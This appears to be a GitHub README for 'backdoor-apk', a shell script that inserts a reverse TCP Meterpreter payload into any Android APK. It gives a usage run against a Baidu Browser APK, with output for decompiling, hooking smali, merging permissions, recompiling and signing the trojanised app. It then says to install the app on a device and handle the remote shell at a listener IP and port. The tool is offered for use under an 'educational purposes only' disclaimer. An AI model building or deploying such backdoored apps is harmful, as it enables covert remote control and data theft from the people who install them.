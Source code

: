 # backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for educational purposes only.

Usage:

```
root@kali:~/Android/evol-lab/BaiduBrowserRat# ./backdoor-apk.sh BaiduBrowser.apk 
[*] Generating reverse tcp meterpreter payload...done.
[+] Handle the meterpreter connection at: 10.6.9.31:1337
[*] Decompiling original APK file...done.
[*] Decompiling RAT APK file...done.
[*] Creating new directories in original project for RAT smali files...done.
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Locating smali file to hook in original project...done.
[*] Adding hook in original smali file...done.
[*] Merging permissions of original and payload projects...done.
[*] Recompiling original project with backdoor...done.
[*] Signing recompiled APK...done.
root@kali:~/Android/evol-lab/BaiduBrowserRat#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection at the specified IP and port.
